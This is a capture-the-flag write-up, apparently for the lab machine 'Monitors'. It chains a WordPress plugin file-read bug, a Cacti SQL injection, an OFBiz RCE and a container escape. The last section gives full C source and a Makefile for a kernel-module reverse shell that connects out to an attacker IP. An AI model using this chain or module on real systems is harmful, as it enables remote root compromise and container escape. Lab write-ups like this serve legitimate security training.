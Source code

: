 # Monitors

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (166) (2).png" alt=""><figcaption></figcaption></figure>

We can add `monitors.htb` to our `/etc/hosts` file.

### Wordpress Site

Port 80 hosts a Wordpress site.

<figure><img src="../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

We can run `wpscan` to enumerate the plugins and version, and this finds that **wp-with-spritz** is being used.

<figure><img src="../../../.gitbook/assets/image (120) (2).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to RFI.

<figure><img src="../../../.gitbook/assets/image (150) (1).png" alt=""><figcaption></figcaption></figure>

We can confirm this by viewing the `/etc/passwd` file.

<figure><img src="../../../.gitbook/assets/image (5) (2) (3) (2).png" alt=""><figcaption></figcaption></figure>

After further enumeration, there's nothing else that I could find. So we probably need to read more files within this machine. I could not read any user files, so I tried to check some configuration files for the server at `/etc/apache2/sites-enabled/000-default.conf`.

<figure><img src="../../../.gitbook/assets/image (14) (2) (2).png" alt=""><figcaption></figcaption></figure>

We can find a new domain at `cacti-admin.monitors.htb`. Afterwards, I also read the Wordpress configuration files at `/var/www/wordpress/wp-config.php` to find a password.

<figure><img src="../../../.gitbook/assets/image (34) (2).png" alt=""><figcaption></figcaption></figure>

### Cacti&#x20;

Upon visting this separate domain, we are greeted by another login page:

<figure><img src="../../../.gitbook/assets/image (60) (3).png" alt=""><figcaption></figcaption></figure>

This version of Cacti is old and vulnerable to loads of exploits. We can login with the credentials for Wordpress. Afterwards, we can use an exploit that uses SQL injection to gain a reverse shell.

<figure><img src="../../../.gitbook/assets/image (125) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

We now have remote access as the user `marcus` and can capture the user flag.

## Privilege Escalation

### Docker Image

In the user's directory, we find a `note.txt` file that points towards a docker image being present.

<figure><img src="../../../.gitbook/assets/image (17) (1) (6).png" alt=""><figcaption></figcaption></figure>

I read the configuration files at `/etc/containerd`, and found that the `root` user was running the image.

<figure><img src="../../../.gitbook/assets/image (20) (1) (3).png" alt=""><figcaption></figcaption></figure>

We can check the open ports of this machine via `netstat -tulpn` to see other open ports.

<figure><img src="../../../.gitbook/assets/image (15) (1) (5).png" alt=""><figcaption></figcaption></figure>

Port 8443 was open and we could access it. The next step is port forwarding.

### OfBiz RCE

I used `ssh -L 8443:localhost:8443 marcus@monitors.htb` to port forward after dropping my public key in the `authorized_keys` folder. Then, I used `gobuster` to find hidden directories present:

<figure><img src="../../../.gitbook/assets/image (68) (3).png" alt=""><figcaption></figcaption></figure>

Visting any of these would redirect us to `/content/control/main`, where there is a login page present.

<figure><img src="../../../.gitbook/assets/image (10) (1) (2).png" alt=""><figcaption></figcaption></figure>

The bottom of the page shows that this is running Apache OFBiz Release 17.12.01, which is vulnerable to loads of exploits, including an RCE one.

<figure><img src="../../../.gitbook/assets/image (61) (4).png" alt=""><figcaption></figcaption></figure>

We can follow the PoC here to execute it:

{% embed url="https://github.com/g33xter/CVE-2020-9496" %}

Then, we would gain a shell as root in the container.

<figure><img src="../../../.gitbook/assets/image (157) (4).png" alt=""><figcaption></figcaption></figure>

### Sys Module Exploit

There was nothing much within this machien that was interesting. I decided to check the capabilities of the container and found that `cap_sys_module` was enabled. This allows us to escape the container.

First we need to create a new Kernel module with some C code:

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.16.3/8888 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Then we need we need to create a `Makefile`:

```
obj-m +=reverse-shell.o

all:
        make -C /lib/modules/4.15.0-generic/build M=/root modules

clean:
        make -C /lib/modules/4.15.0-generic/build M=/root clean
```

Get them both into the root directory and start listening on a port. Afterwards, we can run `make` and `insmod reverse-shell.ko`. This would trigger the reverse shell, and give us a shell as `root`.

<figure><img src="../../../.gitbook/assets/image (32) (5).png" alt=""><figcaption></figcaption></figure>
